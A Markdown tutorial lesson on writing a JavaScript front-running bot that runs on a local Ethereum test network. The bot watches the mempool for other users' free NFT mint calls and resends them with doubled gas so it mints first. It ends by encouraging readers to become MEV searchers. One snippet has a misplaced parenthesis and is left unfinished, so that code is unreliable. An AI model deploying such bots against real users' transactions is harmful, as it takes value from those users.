

# WTF Ethers: 23. Front-running Script

I've been revisiting `ethers.js` recently to refresh my understanding of the details and to write a simple tutorial called "WTF Ethers" for beginners.

**Twitter**: [@0xAA_Science](https://twitter.com/0xAA_Science)

**Community**: [Website wtf.academy](https://wtf.academy) | [WTF Solidity](https://github.com/AmazingAng/WTFSolidity) | [discord](https://discord.gg/5akcruXrsk) | [WeChat Group Application](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)

All the code and tutorials are open-sourced on GitHub: [github.com/WTFAcademy/WTF-Ethers](https://github.com/WTFAcademy/WTF-Ethers)

-----

In this lesson, we will introduce a script for front-running transactions. According to statistics, arbitrageurs on Ethereum have made $1.2 billion in profits through sandwich attacks. Before proceeding, please read the [WTF Solidity S11: Front-running](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md).



## Freemint NFT Contract

The target contract that we will be front-running is an ERC721 standard NFT contract called `Frontrun.sol`, which has a `mint()` function that users can mint a NFT for free.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// We are attempting to front-run a Free mint transaction
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // Constructor to initialize the NFT collection's name and symbol
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Mint function
    function mint() external {
        totalSupply++;
        _mint(msg.sender, totalSupply); // mint
    }
}
```

To simplify the testing environment, we will deploy the above contract on the local test network, foundry, and then monitor the pending transactions in the mempool to filter out qualifying transactions for front-running.
First, you need to install foundry, check [Installation Guide](https://book.getfoundry.sh/getting-started/installation). Once you have installed foundry, you can start the local test network by running the following command in the command line:

```shell
anvil
```

## Front-running Script

Next, let's take a detailed look at the front-running script `frontrun.js`. This script will monitor the `mint()` transactions on the chain and send a higher-gas transaction to front-run them.

1. Create a `provider` object to connect to the local foundry test network for monitoring and sending transactions. The default URL for the foundry local test network is `"http://127.0.0.1:8545"`.

    ```js
    //1. Connect to the local foundry network
    import { ethers } from "ethers";
    const provider = new ethers.providers.WebSocketProvider('http://127.0.0.1:8545')
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] Connected to network ${res.chainId}`))
    ```
2. Create a contract instance to view the minting results and confirm if front-running was successful.

    ```js
    //2. Build contract instance
    const contractABI = [
        "function mint() public",
        "function ownerOf(uint256) public view returns (address) ",
        "function totalSupply() view returns (uint256)"
    ]

    const contractAddress = '0xC76A71C4492c11bbaDC841342C4Cb470b5d12193' // Address of the contract
    const contractFM = new ethers.Contract(contractAddress, contractABI, provider)
    ```
3. Create an `interface` object that contains the `mint()` function we are interested in. We will use this object during the monitoring process. If you're not familiar with it, you can read the [WTF Ethers Simplified Lesson 20: Decoding Transactions](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md).

    ```js
    //3. Create an Interface object to retrieve the mint function
    const iface = new ethers.utils.Interface(contractABI)
    function getSignature(fn) {
        return iface.getSighash(fn)
    }
    ```

4. Create a test wallet to send front-running transactions. The private key is provided by the foundry test network and contains 10,000 ETH test tokens.

    ```js
    //4. Create a test wallet to send front-running transactions. The private key is provided by the foundry test network
    const privateKey = '0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```

5. Let's first see what a normal mint result looks like. We will use the `provider.on` method to monitor the pending transactions in the mempool. When a transaction occurs, we will use the transaction hash `txHash` to read the transaction details `tx` and filter out the transactions that call the `mint()` function. We will then view the transaction result, get the minted NFT token ID and its owner, and compare the transaction sender address with the owner address to confirm that the mint executed as expected.

    ```js
    //5. Build a normal mint function to verify the mint result and display it as normal.
    const normaltx = async () => {
    provider.on('pending', async (txHash) => {
        provider.getTransaction(txHash).then(
            async (tx) => {
                if (tx.data.indexOf(getSignature("mint") !== -1)) {
                    console.log(`[${(new Date).toLocaleTimeString()}] Transaction detected: ${txHash}`)
                    console.log(`Address that initiated the minting: ${tx.from}`) // Print the transaction sender address
                    await tx.wait()
                    const tokenId = await contractFM.totalSupply()
                    console.log(`Minted NFT token ID: ${tokenId}`)
                    console.log(`Owner of NFT with ID ${tokenId}: ${await contractFM.ownerOf(tokenId)}`) // Print the NFT owner address
                    console.log(`Is the address that initiated the minting the owner of the corresponding NFT:${tx.from === await contractFM.ownerOf(tokenId)}`)//Compare whether they are the same
    ```


6. Front-run the minting. We still use the `provider.on` method to listen for pending transactions in the mempool. When a transaction that calls the `mint()` function appears and the sender is not our wallet address (if not filtered, it will be an infinite loop of racing against ourselves), construct a front-run transaction and send it to race. After waiting for the transaction to complete, check the front-run result. The expected result is that the NFT to be minted is not minted by the original transaction initiator, but by the front-run address. At the same time, check the data in the block. The front-run transaction is included in the block before the original transaction is packaged, indicating a successful front-run!

    ```js
    const frontRun = async () => {
        provider.on('pending', async (txHash) => {
            const tx = await provider.getTransaction(txHash)
            if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
                console.log(`[${(new Date).toLocaleTimeString()}]Transaction found:${txHash}\nPreparing for front-running`)
                const frontRunTx = {
                    to: tx.to,
                    value: tx.value,
                    maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
                    maxFeePerGas: tx.maxFeePerGas.mul(2),
                    gasLimit: tx.gasLimit.mul(2),
                    data: tx.data
                }
                const aimTokenId = (await contractFM.totalSupply()).add(1)
                console.log(`The NFT ID to be minted is:${aimTokenId}`)//Print the NFT ID to be minted
                const sentFR = await wallet.sendTransaction(frontRunTx)
                console.log(`Front-running the transaction`)
                const receipt = await sentFR.wait()
                console.log(`Front-run transaction succeeded, transaction hash:${receipt.transactionHash}`)
                console.log(`Address that initiated the mint:${tx.from}`)
                console.log(`The owner of NFT with ID ${aimTokenId} is ${await contractFM.ownerOf(aimTokenId)}`)//The NFT minted just now is not owned by tx.from
                console.log(`The owner of NFT with ID ${aimTokenId.add(1)} is:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from was front-run by wallet.address and minted the next NFT
                console.log(`Is the address that initiated the minting the owner of the corresponding NFT:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//Comparison, tx.from was front-run
                //Check block data result
                const block = await provider.getBlock(tx.blockNumber)
                console.log(`Transactions in the block:${block.transactions}`)//In the block, the later transaction is placed before the earlier transaction, indicating a successful front-run.
            }
        })
    }
    ```

    

## Summary

In this lesson, we introduced a simple front-running script. You can add the desired features to this script and start your journey as a mev-searcher in the crypto world!
